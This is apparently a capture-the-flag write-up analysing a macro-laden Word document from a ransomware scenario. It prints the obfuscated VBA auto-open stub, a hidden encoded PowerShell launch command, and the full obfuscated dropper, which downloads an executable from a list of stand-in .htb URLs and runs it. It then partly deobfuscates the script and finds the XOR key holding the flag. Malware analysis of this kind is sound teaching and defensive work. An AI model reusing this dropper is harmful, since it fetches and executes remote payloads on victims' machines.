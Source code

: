 # Emo

> **WearRansom ransomware just got loose in our company. The SOC has traced the**
> **initial access to a phishing attack, a Word document with macros. Take a look**
> **at the document and see if you can find anything else about the malware and**
> **perhaps a flag.**

## The maldoc

The document macros can be extracted with:

```bash
olevba2 --deobf --decode emo.doc
```

This decodes the hex strings but the VBA code is still obfuscated:

```vba
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Private Sub Document_open()
Get4ipjzmjfvp.X8twf_cydt6
End Sub
Function X4al3i4glox(Gav481k8nh28)
X4al3i4glox = Replace(Gav481k8nh28, "][(s)]w", Sxybmdt069cn)
End Function
```

## Interpretation

The most efficient, most tempting, action is to just run the code.
But I'm on my Linux laptop, not powerful enough for a Windows VM.

So let's just try and make sense of the code.

The previous snippet is run at the opening of the document. It replaces the
string "][(s)]w" with the content of `Sxybmdt069cn`.

This last variable is undefined in the context of the root script. It may
actually mean that "][(s)]w" is supposed to be removed.

Looking around for "][(s)]w" with `strings -n8`, we find:

```
][(s)]w][(s)]wP][(s)]wO][(s)]ww][(s)]we][(s)]wr][(s)]ws][(s)]wh][(s)]we][(s)]wL][(s)]wL][(s)]w ][(s)]w-][(s)]ww][(s)]wi][(s)]wn][(s)]wd][(s)]wo][(s)]ww][(s)]ws][(s)]wt][(s)]wy][(s)]wl][(s)]we][(s)]w ][(s)]wh][(s)]wi][(s)]wd][(s)]wd][(s)]we][(s)]wn][(s)]w ][(s)]w-][(s)]wE][(s)]wN][(s)]wC][(s)]wO][(s)]wD][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]wIPA][(s)]wABY][(s)]wTKA][(s)]wYFz][(s)]wYXA][(s)]wpIy][(s)]wAdA][(s)]wxgD][(s)]wAfD][(s)]wLAr][(s)]wAVe][(s)]wDgG][(s)]wBuY][(s)]wtAH][(s)]wCyA][(s)]wwAY][(s)]wKTA
```

It looks like regular characters separated by our weird string.
Indeed! It translates to `POwersheLL -windowstyle hidden -ENCOD                 IPAABYTK...`, after removing "][(s)]w".

## Running in a sandbox

Running the malware in the online sandbox [any.run](https://any.run) immediately
captures the powershell command found above:

```powershell
POwersheLL -windowstyle hidden -ENCOD IABTAFYAIAAgADAAegBYACAAKABbAFQAeQBQAGUAXQAoACIAewAyAH0AewAwAH0Ae...
```

Still `any.run` shows file activity, but I found no way to open them.

## Decoding

Back to the code then!

The previous snippet is actually base64 encoded and gives:

```powershell
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;  $Nbf5tg3=('B9'+'yp'+('90'+'s'));$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy;$Ky3q0e8=(('Rq'+'dx')+'wo'+'5');  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92));$FN5ggmsH = (182,187,229,146,231,177,151,149,166);$Pyozgeo=(('J5f'+'y1')+'c'+'c'); (  vaRiABLE TxYSEo  ).ValuE::"SecUrI`TYp`R`OtOc`ol" = (('Tl'+'s1')+'2');$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);$Huajgb0=(('Jn'+'o')+'5g'+'a1');$Bb28umo = (('Ale'+'7g')+'_8');$Hsce_js=('Kv'+('nb'+'ov_'));$Spk51ue=(('C'+'7xo')+'9g'+'l');$Scusbkj=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.e'+'x')+'e');$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);$hbmskV2T=(('C'+'7xo')+'9g'+'l');$hbmskV2T=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.c'+'o')+'nf');$Q1_y05_=('W'+('4'+'qvy')+'z8');$Odb3hf3=&('n'+'e'+'w-object') Net.WEBclIENt;$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);$Anbyt1y=('h'+('ttp:'+']['+'(s)]')+(('w]'+'[('))+(('s)'+']w'))+('da'+'-')+'i'+'n'+'du'+('s'+'trial.'+'h'+'t')+'b]'+('[(s)]'+'w'+'js')+((']'+'[('))+(('s'+')]w9IdL'+'P]['+'(s'+')]w'+'@h'))+('t'+'tp:]')+('[(s'+')]')+'w'+(']'+'[(s)]')+('wdap'+'ro'+'fesiona'+'l.h')+'tb'+('][(s'+')'+']')+'w'+('d'+'ata')+('4][(s'+')]wh')+('WgW'+'jT')+('V]'+'[')+('(s)]w@http'+'s:][(s'+')]'+'w'+']')+'['+('(s)'+']wdag'+'ra')+'ni'+'t'+('eg'+'ia')+('re.h'+'t')+'b]'+('['+'(s)')+(']ww'+'p-a'+'dm'+'in][(s)'+']wt')+('V]['+'(s'+')')+(']w@'+'h')+'tt'+'p'+(':'+'][')+('(s)]w]['+'(s'+')]www'+'w'+'.out'+'s'+'p')+('ok'+'e')+'nv'+'i'+('s'+'ions.')+('htb'+']')+'['+('(s)]w'+'wp'+'-in')+('clu'+'d')+('es][(s)'+']waW'+'o'+'M')+(']'+'[('+'s)]w')+('@'+'http:]')+('[(s)'+']w][('+'s)')+(']wmo'+'bs')+('o'+'uk.h')+(('t'+'b][('))+(('s)'+']wwp-'))+'in'+'c'+'l'+('ude'+'s]'+'[')+('(s)]'+'w')+('UY'+'30R]')+('[(s'+')]w'+'@'+'h'+'ttp:][')+('('+'s)]w')+(']['+'(s)')+(']'+'wb')+'i'+('g'+'laugh'+'s')+(('.h'+'t'+'b][(s'))+((')]'))+('ws'+'mallpot'+'ato')+'es'+((']'+'[(s'))+((')]wY]'+'[(s'+')]w'+'@h'+'ttps:][(s)'))+']w'+('][('+'s)]wn'+'g')+('ll'+'o')+('gist'+'i')+('cs.'+'h')+'t'+('b]'+'['+'('+'s)]w')+'ad'+('mi'+'n')+'er'+']'+('[(s'+')]w'+'W3m')+'k'+(('B'+'][(s'))+((')'+']w')))."rep`LAcE"((']'+'['+('(s)]'+'w')),([array]('/'),('xw'+'e'))[0])."sP`lIT"($Ivg3zcu + $Vxnlre0 + $Jzaewdy);$Gcoyvlv=(('Kf'+'_')+('9'+'et1'));foreach ($A8i3ke1 in $Anbyt1y){try{$Odb3hf3."dO`WnLOA`dfILe"($A8i3ke1, $Scusbkj);$Zhcnaux=(('Ek'+'k')+('j'+'47t'));If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }; $FN5ggmsH += (228); $b0Rje =  [type]("{1}{0}" -F'VerT','Con');   $B0RjE::"tO`BaS`E64S`TRI`Ng"(${fn5`ggm`sh}) | .("{2}{1}{0}" -f 'ile','ut-f','o') ${hB`mSK`V2T}; ([wmiclass](('wi'+'n')+('32_'+'Proc'+'e')+'s'+'s'))."cR`eaTE"($Scusbkj);$Glwki6a=('I'+'m'+('td'+'xv6'));break;$Pfpblh1=('Vs'+('lal'+'c')+'u')}}catch{}}$F47ief2=(('Bn'+'zid')+'rt')
```

Obfuscated, but this is a major step in readability!

## Deobfuscating

So I took it as a powershell learning exercise and cleaned line by line:

```powershell
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;
Set-Variable 0zX ([Type]("System.IO.Directory"));
```

```powershell
set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;
Set-Variable TxySeo ([Type]("System.Net.ServicePointManager"));
```

Etc.

## Fast and failed

### Decoding str

There are many unused variables, that are constant strings.

```powershell
$Nbf5tg3=('B9'+'yp'+('90'+'s'));
$Nbf5tg3 = 'B9yp90s';
```

They may be here as an evasion / obfuscation tool or actually carry meaning.

I tried decoding as base64, but no luck.

### Replaying HTTP requests

The script tries to download data from these:

```
http://da-industrial.htb/js/9IdLP/
http://daprofesional.htb/data4/hWgWjTV/
https://dagranitegiare.htb/wp-admin/tV/
http://www.outspokenvisions.htb/wp-includes/aWoM/
http://mobsouk.htb/wp-includes/UY30R/
http://biglaughs.htb/smallpotatoes/Y/
https://ngllogistics.htb/adminer/W3mkB/
```

They don't resolve, even on the vpn.

### Running the script

I traced the script execution with `Set-PSDebug -Trace 2`, but only found
commands I already knew and understood.

## Suspicious data

There's an array of integers, with byte like values:

```powershell
$FN5ggmsH = (182,187,229,146,231,177,151,149,166);
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);
```

In retrospective, the following command clearly shows that it was the key:

```powershell
${FN5GGmSh} += ([byte][char]${_} -bxor 0xdf
```

> thanks to the author for passing by! :D

The array is not directly interpretable as characters, but it can be unlocked with
a judicious xor.
